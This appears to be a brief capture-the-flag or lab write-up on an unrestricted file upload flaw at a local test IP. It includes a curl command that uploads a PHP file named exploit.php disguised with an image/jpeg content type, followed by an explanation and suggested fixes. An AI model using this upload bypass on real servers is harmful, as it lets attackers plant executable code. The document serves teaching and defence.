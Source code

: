 # situation

## http://192.168.56.101/index.php?page=upload#

on se doute qu ils y a une faille par la donc on upload via curl

curl  'http://192.168.56.101/?page=upload' -F 'uploaded=@exploit.php;type=image/jpeg' -F 'Upload=Upload'


# problem
You can upload anything as long as it have the right property type.
You should never be able to load a php file where an image is expected.

# fix
Do not rely on the type indicated. At list check for the image extension first and then check the image content.
It shoukd be qn image not a script...
And never execute it; drop the permissions.
- You can also remove php the ability to run anything in the upload file
- you can also invalidate the script inside for example by converting jpg to png
- You can check metadata but its not that relyable as it can be forged